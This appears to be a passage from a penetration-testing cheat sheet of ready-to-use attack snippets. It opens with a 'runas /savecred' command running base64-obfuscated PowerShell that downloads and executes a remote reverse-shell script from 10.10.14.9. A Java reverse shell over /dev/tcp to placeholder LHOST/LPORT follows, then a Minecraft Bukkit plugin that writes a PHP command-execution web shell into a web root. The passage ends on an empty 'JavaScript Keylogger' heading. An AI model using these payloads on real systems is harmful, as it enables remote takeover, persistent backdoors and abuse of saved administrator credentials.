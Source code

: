 ```c
C:\> runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADkAOgA4ADAALwByAGUAdgBzAGgAZQBsAGwALgBwAHMAMQAnACkA"
```

## JAVA Reverse Shell

```c
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<LHOST>/<LPORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

$ r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<LHOST>/<LPORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

### shell.jar

```c
package <NAME>;

import org.bukkit.plugin.java.JavaPlugin;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.file.StandardOpenOption;

public class Main extends JavaPlugin {
   @Override
   public void onDisable() {
     super.onDisable();
   }

@Override
public void onEnable() {
  final String PHP_CODE = "<?php system($_GET['cmd']); ?>";
  try {
   Files.write(Paths.get("/var/www/<DOMAIN>/shell.php"), PHP_CODE.getBytes(), StandardOpenOption.CREATE_NEW);
   } catch (IOException e) {
     e.printStackTrace();
   }

   super.onEnable();
  }
}
```

## JavaScript Keylogger
